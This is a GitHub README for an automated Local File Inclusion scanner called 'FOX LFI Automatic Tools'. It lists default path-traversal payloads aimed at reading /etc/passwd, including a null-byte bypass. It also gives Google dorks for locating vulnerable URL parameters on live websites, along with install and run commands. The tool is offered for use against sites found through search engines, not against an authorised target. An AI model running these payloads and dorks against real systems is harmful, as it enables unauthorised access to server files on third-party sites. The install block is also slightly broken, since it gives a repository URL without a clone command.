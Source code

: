 <a name="readme-top"></a>


<br />
<div align="center">
  <a href="https://github.com/othneildrew/Best-README-Template">
    <img src="https://i.imgur.com/PlZ6PEH.png" alt="Logo">
  </a>

  <h3 align="center">FOX LFI AUTOMATIC TOOLS🦊</h3>

  <p align="center">
    The FOX LFI Scanner is a powerful tool designed for scanning Local File Inclusion vulnerabilities.
  </p>
</div>

## Google Dork
Automatically search for vulnerabilities using google dork

```bash
/db/dorks.txt
```
## Payloads
This uses separate payloads, if you want to add a custom payload, go to:

```bash
/db/payloads.txt
```

Default payloads:
```bash
/etc/passwd
../../../../../../../../../../../etc/passwd
/../../../../../../../../../../../../etc/passwd
/..././..././..././..././..././..././..././etc/passwd%00
../../../../../../../..//etc/passwd
```

### Dork

```bash
inurl:/squirrelcart/cart_content.php?cart_isp_root=
inurl:index2.php?to=
inurl:index.php?load=
inurl:home.php?pagina=
```
## Installation

```bash
https://github.com/sandiskyy/Lfi-fox.git
cd Lfi-fox
pip3 install -r requirements.txt
```

## Usage
```bash
python3 Lfi-fox.py
```
## Note
Using Bing Still Not Working


